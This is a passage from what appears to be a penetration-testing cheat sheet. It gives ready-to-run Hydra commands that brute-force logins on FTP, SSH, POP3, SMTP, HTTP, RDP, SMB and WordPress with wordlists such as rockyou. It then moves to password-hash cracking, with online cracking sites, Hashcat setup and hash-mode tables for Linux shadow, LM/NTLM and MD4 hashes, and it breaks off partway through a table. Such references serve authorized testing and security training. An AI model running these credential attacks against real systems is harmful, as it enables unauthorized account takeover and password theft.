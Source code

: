         -   Hydra FTP known user and rockyou password list  
        
            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

        -   Hydra SSH using list of users and passwords  
        
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list  
        
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username on port 22
        
            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

        -   Hydra POP3 Brute Force  
        
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force  
        
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary  
        
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`
            
        -   Hydra attack Windows Remote Desktop with rockyou
        
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`
            
        -   Hydra brute force SMB user with rockyou:
        
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`
            
        -   Hydra brute force a Wordpress admin login ( wpscan will do it too ) 
        
            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

          

-   Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)
        [*http://finder.insidepro.com/*](http://finder.insidepro.com/)

    -   Hashcat
    Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

      `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

      and

      `apt-get install pocl-opencl-icd`


    Cracking Linux Hashes - /etc/shadow file
    ```
     500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
    3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
    7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
    1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
    ```
    Cracking Windows Hashes
    ```
    3000 | LM                                               | Operating-Systems
    1000 | NTLM                                             | Operating-Systems
    ```
    Cracking Common Application Hashes
    ```
      900 | MD4                                              | Raw Hash